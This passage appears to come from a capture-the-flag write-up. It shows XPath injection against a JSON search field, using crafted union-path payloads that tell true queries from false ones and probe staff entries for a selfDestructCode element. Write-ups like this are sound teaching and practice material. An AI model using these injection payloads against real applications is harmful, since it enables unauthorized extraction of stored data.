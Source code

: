 ```json
{"search":"random'] | /military/district/staff[name='Straorg'] | /military/district/staff[name='random"}
```

We get a success. 

![Injection1](/assets/images/Pasted_image_20210421121812.png)

Now searching for a non-existing user. 

```json
{"search":"random'] | /military/district/staff[name='RFC1918'] | /military/district/staff[name='random"}
```

We get a failure response. 

![Injection2](/assets/images/Pasted_image_20210421121907.png)

Success. We now know if we send a query thats true, we will get a success and if the query is false we get a failure. Taking this knowledge we can now build a script to bruteforce each character of the flag. 

But first we need to find out which two users have the selfDestructCode element. 

Doing a quick test we quickly discovered that it will be the user indexed at 2 and 3. 

```json
{"search":"random'] | /military/district/staff[2] | /military/district/staff[name='random"}
```

![Injection3](/assets/images/Pasted_image_20210421122300.png)
